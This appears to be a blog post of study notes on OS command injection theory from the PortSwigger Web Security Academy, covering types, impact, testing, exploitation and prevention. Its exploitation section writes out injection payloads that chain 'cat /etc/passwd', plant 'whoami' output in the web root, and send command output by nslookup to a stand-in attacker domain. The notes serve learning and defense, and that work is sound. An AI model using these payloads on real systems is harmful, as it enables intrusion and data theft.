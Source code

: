 ```yaml
---
layout: post
title:  "PortSwigger - Command Injection - Theory"
date:   2024-07-06 13:40
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [command-injection]
categories: [PortSwigger]
---
```


# Introduction
>OS Command Injection is a vulnerability that consists of an attacker executing commands on the host operating system via a vulnerable application.
<br/>
<br/>
<b>Reference:</b>
<br/>
<a href="https://academy.ranakhalil.com/courses/1491236/lectures/38308201">Rana Khalil Academy - OS Command injection</a>
<br/>
<a href="https://portswigger.net/web-security/os-command-injection">PortSwigger - OS Command Injection</a>
<br/>
<a href="https://owasp.org/www-community/attacks/Command_Injection">OWASP - Command Injection</a>
<br/>
<a href="https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html">OWASP - OS Command Injection Defense Cheat Sheet</a>
<br/>

### Two conditions for OS Command Injection vulnerabilities:
<hr/>

1. Uses a function that can execute system commands such as exec.
1. The parameter of executable methods are user controllable.

![Code vulnerable to command injection](/images/portswigger/CommandInjection/VulnerableCommandInjectionCodeExample.png)

### Types of Command Injection
<hr/>

#### In-band Command Injection
Consists of an attacker executing commands on the host operating system via a vulnerable application and `receiving the response of the command in the application.`
<br/>

#### Blind Command Injection
Consists of an attacker executing commands on the host operating system via a vulnerable application `that does not return the output from the command within its HTTP response.`
<br/>

### Impact of Command Injection Attacks:
- Unauthorized access to the application:
    - `Confidentiality` - Command injection can be used to view sensitive information.
    - `Integrity` - Command Injection can be used to alter content in the application.
    - `Availability` - Command Injection can be used to delete content in the application.
- Remote code execution on the operating system.

![OWASP - Injection Ranking](/images/portswigger/CommandInjection/OWASP_Injection_Ranking)

### How to find Command Injection ?
<hr/>

#### Black-Box Testing
- Map the application
    - Identify all instances where the web application appears to be interacting with the underlying operating system. 
- Fuzz the application. 
    - Shell metacharacters: &, &&, |, ||, ;, \n, `, $(). 
- For in-band command injection, analyze the response of the application to determine if it’s vulnerable. 
- For blind command injection, you need to get creative. 
    - Trigger a time delay using the ping or sleep command. 
    - Output the response of the command in the web root and retrieve the file directly using a browser. 
    - Open an out-of-band channel back to a server you control.

#### White-Box Testing
- Perform a combination of black box and white-box testing. 
- Map all input vectors in the application. 
- Review source code to determine if any of the input vectors are added as parameters to functions that execute system commands. 
- Once a vulnerability is identified, test it to confirm that it is exploitable.

### How to exploit command injection ?
<hr/>

#### Exploiting In-band Command injection
- Shell metacharacters:
```
&
&& 
|
|| 
;
\n
`
$()
```
- Concatenate another command
```
127.0.0.1 && cat /etc/passwd &
127.0.0.1 & cat /etc/passwd &
127.0.0.1 || cat /etc/passwd &
```

#### Exploiting Blind Command Injection
- Shell metacharacters: 
```
&
&&
|
||
;
\n
`
$()
```
- Trigger a time delay
```
127.0.0.1 && sleep 10 &
127.0.0.1 && ping -c 10 127.0.0.1 &
```
- Output the response of the command in the web root and retrieve the file directly using a browser
```
127.0.0.1 & whoami > /var/www/static/whoami.txt #
```
- Open an out-of-band channel back to a server you control.
```
127.0.0.1 & nslookup kgji2ohoyw.web-attacker.com &
127.0.0.1 & nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

### How to prevent Command injection ?
<hr/>

#### Preventing Command Injection Vulnerabilities
The most effective way to prevent OS command injection vulnerabilities is to never call out to OS commands from application-layer code. Instead, implement the required functionality using safer platform APIs.
- For example: use mkdir() instead of system("mkdir/dir_name")

It is required to perform OS commands using user-supplied input, then strong input validation must be performed. 
- Validate against a whitelist of permitted values. 
- Validate that the input is as expected or valid input.
<hr/>